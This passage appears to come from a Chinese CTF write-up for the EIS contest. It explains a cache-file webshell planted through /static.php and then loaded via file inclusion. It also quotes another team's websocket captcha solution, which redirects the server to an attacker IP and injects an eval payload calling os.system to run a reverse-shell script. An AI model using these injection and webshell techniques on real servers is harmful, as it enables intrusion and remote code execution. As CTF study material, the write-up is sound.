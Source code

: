 > 202.120.7.205/static.php/l.js ，md5 哈希过后得到的值为 bbbcb40ec7f308548f1d387c5ca763ba 按照配置⽂文件中所规定的 1:2 的命名法，可以得到完整路路径 为： /tmp/a/3b/bbbcb40ec7f308548f1d387c5ca763ba

然后，利用/static.php会对.css和.js结尾文件进行缓存的特性。而且当其缓存一个不存在的文件时，会直接输出文件名。也就是说，缓存一个不存在的文件时，缓存临时文件还会生成，里面的内容会是xxx not exists！xxx指文件名。

那么，我们就能利用这个特性，缓存一个一句话到缓存目录。

福州大学WP截图：

![cache1](https://moxiaoxi.info/img/post/EIS/7.png)

接着，只需要利用page的文件包含，进行利用即可。文件位置利用前面说的缓存规则推算而得。

如下：

![cache2](https://moxiaoxi.info/img/post/EIS/8.png)

getshell成功，查看一下flag即可。

PS：人对未知的东西总是充满恐惧，做题的时候想到了缓存，但是因为以前没接触过，就害怕，放弃了。自省！

## 验证码

这题没做出来，Websocket也不是很懂。学习了下Melody的WP，不过现在还不理解他如何做到将melody.py上传上去的。题目环境又关了，没办法复现😭。

贴上他的题解：

> 本题逻辑十分简单，请求服务器器⼀个验证码，服务器器返回字符画。请求结果，服务端校验结果。有⼀个隐藏的 help 指令，可以 reconnect，问题在于如何指定 reconnect 的服务器，将发给 ws 服务的 json 中的值依次替换成 [] 可以通过报错信息推断后端逻辑，得到 method 会被带⼊入到 getattr 中，那么必须得是⼀一个类中规定好的⽅方 法才能够带⼊入进来，可行的操作并不不多，测试了`__init__` 函数，根据错误信息发现可以带⼊两个参数， 因此发包如下
>
> {"method":"__init__","args":[ip,port]}
>
> 接着调⽤用 reconnect
>
> {"method":"reconnect"}
>
> 此时服务器器上监听的端⼝口已收到信息。
>
> 我们继续请求新的验证码，发现服务端向我们请求⼀一个操作符，操作数由服务端⽣生成好了了，因此猜测整个表达式被带⼊入到 eval 中得到返回值，再给客户校验计算结果。那么答案也就显⽽易见了。我们将给客户的操作符定 义为
>
> `+__import__('os').system('python\x20/tmp/melody.py')+`
>
> 那么被带⼊入到后端就会变成
>
> `eval("1+__import__('os').system('python\x20/tmp/melody.py')+2") `
>
> 我们的代码就得到执⾏行行了了，尝试后成功反弹 shell。 最后在 arifmetics.py 中找到 ﬂag。
>
> ```python
> cat ar* 
> import asyncio 
> from hashlib import md5 
> from random import choice, randint 
> from threading import Thread
>
> SALT = b"EIS{87a5d7e4aae098be036d6b8035e4}
> ```
>
> 
